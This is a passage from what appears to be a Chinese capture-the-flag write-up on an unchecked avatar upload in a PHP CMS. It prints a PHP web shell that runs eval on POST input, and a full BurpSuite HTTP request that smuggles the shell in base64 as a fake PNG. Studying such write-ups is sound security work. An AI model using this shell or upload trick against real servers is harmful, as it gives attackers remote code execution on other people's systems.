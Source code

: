 ```php
                }
            } else {

                exit(dr_json(0, '图片字符串不规范'));
            }
        } else {
            exit(dr_json(0, '图片不存在'));
        }

// 上传图片到服务器
        if (defined('UCSSO_API')) {
            $rt = ucsso_avatar($this->uid, file_get_contents($dir.'90x90.jpg'));
            !$rt['code'] && $this->_json(0, fc_lang('通信:失败 %s', $rt['msg']));
        }


        exit('1');
    }
```

发现 `upload` 函数中并未对上传的文件进行内容检查, 直接将上传的文件存储到 `${SYS_UPLOAD_PATH}/member/${uid}/` 目录下, 这就意味着可以上传任意文件.
并且上传的文件名是 `0x0.${result[2]}`, 这就意味着我们可以通过控制 `data` 的内容, 来控制文件的扩展名.

首先上传一个普通 `.jpg` 图片. 检查网页发现 avatar 链接为: <http://.../uploadfile/member/1/45x45.jpeg>

制作一个 PHP 木马:

```php
<?php
@phpinfo();
@eval($_POST['cmd']);
?>
```

将文件命名为 `avatar.png` 从而欺骗服务器, 使其认为我们上传的是一个图片文件.

使用 BurpSuite 拦截图片上传请求, payload 如下:

```http
POST /index.php?s=member&c=account&m=upload&iajax=1 HTTP/1.1
Host: 9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com
Content-Length: 99
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: http://9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com
Referer: http://9841f19f-50d8-4b1a-a45c-28ea2bc57ce4.1.2024.thudart.com/index.php?s=member&c=account&m=avatar
Accept-Encoding: gzip, deflate, br
Cookie: 24b16fede9a67c9251d3e7c7161c83ac_ci_session=mcfhqflupgcv4qlnddi573c41p5a7ddu; member_uid=1; member_cookie=2db4367e75f3b482d301
Connection: keep-alive

tx=data%3Aimage%2Fpng%3Bbase64%2CPD9waHAKQHBocGluZm8oKTsKQGV2YWwoJF9QT1NUWydjbWQnXSk7Cj8%2BCg%3D%3D
```
